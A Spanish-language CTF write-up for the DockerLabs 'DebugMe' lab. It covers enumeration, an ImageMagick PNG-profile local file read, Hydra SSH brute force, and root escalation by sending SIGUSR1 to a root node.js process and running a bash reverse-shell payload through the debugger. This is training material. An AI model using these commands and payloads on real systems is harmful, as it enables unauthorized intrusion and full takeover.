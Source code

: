 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-es
featured: false
draft: false
ogImage: "assets/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  Este desafío de ciberseguridad guía a los participantes a través de una intrusión en un servidor. El proceso implica la enumeración de servicios, la explotación de una vulnerabilidad de LFI, el acceso a SSH mediante fuerza bruta y la escalada de privilegios a través de un proceso de node.js.
lang: es
---
```


Este desafío de ciberseguridad, disponible en <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guía a los participantes a través de una intrusión en un servidor. El proceso implica la enumeración de servicios, la explotación de una vulnerabilidad de LFI, el acceso a SSH mediante fuerza bruta y la escalada de privilegios a través de un proceso de node.js para lograr acceso root.

## Tabla de contenido 

## Enumeración

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

Visitamos el sitio web en los puertos 80 y 443, y aparece la misma página. Parece ser una herramienta donde podemos seleccionar una imagen y las diferentes versiones de tamaño que queremos para la imagen.

![Resize image](/assets/debugme/image-2.png)

Al enviar el formulario con una imagen y diferentes versiones, las muestra en una página.

![Result](/assets/debugme/image-3.png)

Hacemos un poco de fuzzing en el servicio web utilizando gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Encontramos el clásico info.php, con información de PHP.

![gobuster](/assets/debugme/image-4.png)

En `/info.php`, encontramos un montón de extensiones PHP instaladas y una versión de PHP un poco desactualizada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

También vemos que los módulos `GD` y `Image Magick` están instalados, lo que puede utilizarse para el servicio de transformación de imágenes.

## Intrusión

Es probable que existan diferentes maneras de realizar la intrusión; en este caso, optamos por una posible LFI (creo que esto sería LFI, pero no estoy seguro) que ocurre durante la transformación de ImageMagick.

Más información en:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Siguiendo las instrucciones de hackplayers, instalamos las dependencias necesarias:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Usamos un PNG y añadimos el campo de perfil con la ruta que queremos inyectar. Esto creará el archivo pngout.png.

![pngcrush](/assets/debugme/image-5.png)

Verificamos que se haya añadido correctamente.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Ahora usamos la imagen pngout.png en el servicio web, seleccionamos un tamaño y hacemos clic en "Resize".

![Resize payload](/assets/debugme/image-7.png)

Aparecen las dos imágenes, hacemos clic derecho en una y la descargamos en nuestro Kali, nombrándola resultado.png.

![alt text](/assets/debugme/image-8.png)

Verificamos si los datos se han filtrado en el perfil.

```bash
identify -verbose resultado.png
```

![alt text](/assets/debugme/image-9.png)

Parece que los datos se filtraron correctamente. Copiamos todos los bytes hexadecimales del perfil y los ponemos en una sola línea. Luego, los incluimos en el siguiente Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

Y el resultado:

![alt text](/assets/debugme/image-10.png)

Genial, ahora tenemos un LFI, y podemos ver que hay un usuario llamado `lenam` y otro llamado `application`.

### Fuerza Bruta SSH

Si intentamos buscar otros archivos interesantes, no encontramos nada. Intentamos un ataque de fuerza bruta con el usuario `lenam` utilizando Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Con un poco de paciencia, encontramos la contraseña SSH para el usuario lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Escalada de Privilegios

Accedemos vía SSH utilizando el usuario `lenam` y la contraseña `loverboy`.

![alt text](/assets/debugme/image-12.png)

Vemos que podemos ejecutar el comando `/bin/kill` como root con la contraseña de lenam.

También observamos los procesos que está ejecutando root y vemos que se está ejecutando un proceso de node.js.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

Verificamos si hay puertos locales abiertos y encontramos los puertos 8000 y 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

El puerto 8000 parece ser una aplicación node.js.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Como podemos matar cualquier proceso, intentamos abrir el depurador de node.js enviando una señal `SIGUSR1` al proceso de node.js. Esto debería reiniciar la aplicación node.js con el puerto de depuración abierto (por defecto, el puerto 9229) y accesible a través de websockets.

Más información:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Para obtener el PID del proceso de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

El comando completo:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verificamos si el puerto de depuración e inspección 9229 ahora está abierto.

![port 9229](/assets/debugme/image-16.png)

¡Bingo! Funcionó. Ahora ingresamos a la aplicación node.js con el inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

Escuchamos con netcat.

```bash
nc -lvnp 5000
```

Y ejecutamos la siguiente carga útil en la consola de depuración, reemplazando la IP 10.0.2.15 con la tuya.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Felicidades, ahora somos root.
